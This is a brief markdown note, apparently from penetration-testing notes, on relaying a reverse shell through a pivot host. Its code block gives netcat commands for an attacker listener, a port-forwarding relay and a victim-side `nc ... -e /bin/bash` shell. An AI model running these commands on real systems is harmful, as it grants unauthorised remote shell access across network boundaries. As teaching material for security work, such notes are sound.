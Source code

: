 So .. In Case Device <mark style="color:green;">C</mark> Send CMD To Device <mark style="color:blue;">B</mark> In Port 8080 , And Device <mark style="color:blue;">B</mark> Can See Device <mark style="color:red;">A</mark> , U Can Send Malware To Connect Or Forward Connection From Device <mark style="color:blue;">B</mark> To Device <mark style="color:red;">A</mark>

<mark style="color:red;">A -></mark> 192.168.1.2 <mark style="color:red;">(Attacker)</mark>

<mark style="color:blue;">B -></mark> 192.168.2.5 <mark style="color:blue;">(Server)</mark>

<mark style="color:green;">C -></mark> 192.168.2.3 <mark style="color:green;">(Victim)</mark>

```
Device_A# nc -lnvp 22

Device_B# nc -lnvp 8080 | nc 192.168.1.2 22

Device_C# nc 192.168.2.5 8080 -e /bin/bash
```
